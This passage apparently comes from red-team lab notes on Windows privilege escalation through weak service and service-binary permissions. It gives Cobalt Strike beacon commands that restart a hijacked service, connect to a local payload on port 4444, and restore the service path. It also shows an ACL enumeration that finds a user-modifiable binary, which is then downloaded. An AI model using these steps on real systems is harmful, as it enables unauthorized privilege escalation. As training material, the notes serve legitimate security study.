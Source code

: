
#### Restart Service

We'll have to stop and start the service.

```powershell
beacon> run sc stop VulnService2
beacon> run sc start VulnService2

beacon> connect localhost 4444
```

#### Restore Changes

When we've completed the engagement, we'll want to restore the service to it's initial configuration.

```powershell
beacon> run sc config VulnService binPath= \""C:\Program Files\Vulnerable Services\Service 2.exe"\"
[SC] ChangeServiceConfig SUCCESS
```

<mark style="color:red;">Note</mark>: The additional set of quotes (") is necessary to ensure the path remains completely quoted.



## Weak Service Binary Permissions

Simarly to above, instead of the service having weak permissions, the actual binary that the service runs may have weak permissions.

### Enumerate Binary Permissions

```powershell
beacon> powershell Get-Acl -Path "C:\Program Files\Vulnerable Services\Service 3.exe" | fl

Path   : Microsoft.PowerShell.Core\FileSystem::C:\Program Files\Vulnerable Services\Service 3.exe
Owner  : BUILTIN\Administrators
Group  : DEV\Domain Users
Access : BUILTIN\Users Allow  Modify, Synchronize
         NT AUTHORITY\SYSTEM Allow  FullControl
         BUILTIN\Administrators Allow  FullControl
         BUILTIN\Users Allow  ReadAndExecute, Synchronize
```



### Exploit Vulnerability



#### Download Service

We can download the service binary for more details.&#x20;

```powershell
beacon> download Service 3.exe
[*] started download of C:\Program Files\Vuln Services\Service 3.exe (5120 bytes)
[*] download of Service 3.exe is complete
```
